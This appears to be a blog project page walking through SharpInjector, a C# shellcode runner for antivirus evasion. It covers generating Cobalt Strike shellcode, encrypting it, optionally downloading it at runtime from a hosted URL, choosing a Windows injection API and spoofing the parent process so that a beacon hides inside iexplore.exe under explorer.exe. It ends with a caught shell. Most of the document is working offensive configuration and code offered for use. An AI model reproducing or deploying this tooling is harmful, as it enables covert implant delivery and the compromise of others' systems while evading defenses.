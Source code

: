 ```yaml
---
layout: page
title: SharpInjector
subtitle: Experimenting with a shellcode runner
---
```

<img alt="C#" src="https://img.shields.io/badge/c%23%20-%23239120.svg?&style=for-the-badge&logo=c-sharp&logoColor=white"/><a href="https://github.com/tw1sm/SharpInjector"><img width=40px src="https://github.githubassets.com/images/modules/logos_page/Octocat.png" alt="octocat"></a>



Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had some sucess with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00Fist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

1. Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

2. Clone the project and transfer your `.bin` file over the the system you're generating the payload on
    ~~~
    git clone https://github.com/tw1sm/SharpInjector.git
    ~~~

3. Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
    ```csharp
    public static string Enc(string data)
            {
                string enc = "";
                string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
    ```

4. Build the `ScEncryptor` project 
5. Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will be placed automatically into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

1. Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project
    ```csharp
    // Decryptor func
    public static string Dec(string ciphertext)
    {
        string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
    ```

2. Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#
    ```csharp
    const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
    ```

3. On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that the target injection process will be spawned as a child of. `Explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
    ```csharp
    string ParentName = "explorer"; // CHANGE THIS: name of parent process
    string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
    ```

4. Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
```csharp
string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
```

5. Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}